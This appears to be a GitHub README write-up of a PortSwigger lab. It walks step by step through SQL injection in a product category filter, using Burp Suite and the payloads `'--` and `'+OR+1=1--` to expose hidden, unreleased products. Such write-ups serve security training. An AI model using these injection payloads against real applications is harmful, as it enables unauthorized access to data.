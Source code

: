 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

## To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

**NOTE**
Comments in database
Oracle,Microsoft,PostgreSQL Uses `--`
MySQL User `#`

---

step 1

click on any category 
like here lifestyle click on lifestyle `/filter?category=Lifestyle`

![screnshot](lab1_category_life_style.jpg)


step 2

use burpsuite to trace all traffic 
in burpsuite go to proxy => http history => you will see `/filter?category=Lifestyle` send to repeater

![screnshot](lab1_http_history_lifestyle.jpg)


![screnshot](lab1_repeater_lifestyle.jpg)

step 3

add `'--` at the end of URL request 
`/filter?category=Lifestyle'--`
send request you will get 200 response

![screnshot](lab1_add_first_payload.jpg)

in render section you see only lifestyle related product showing

![screnshot](lab1_render_lifestyle_repeater.jpg)

SQL query be like
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

step 4

add `'+OR+1=1--` at the end of URL request 
`/filter?category=Lifestyle'+OR+1=1--`
send request you will get 200 response
go to render section you will notice there are hidden product also visible with lifestyle

![screnshot](lab1_hidden_data.jpg)

SQL query be like
```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

step 5

reload home page into browser to solve lab

![screnshot](portswigger_wsa/P01_server_side_topic/P01_sql_injection/images/lab1_solved_lab.jpg)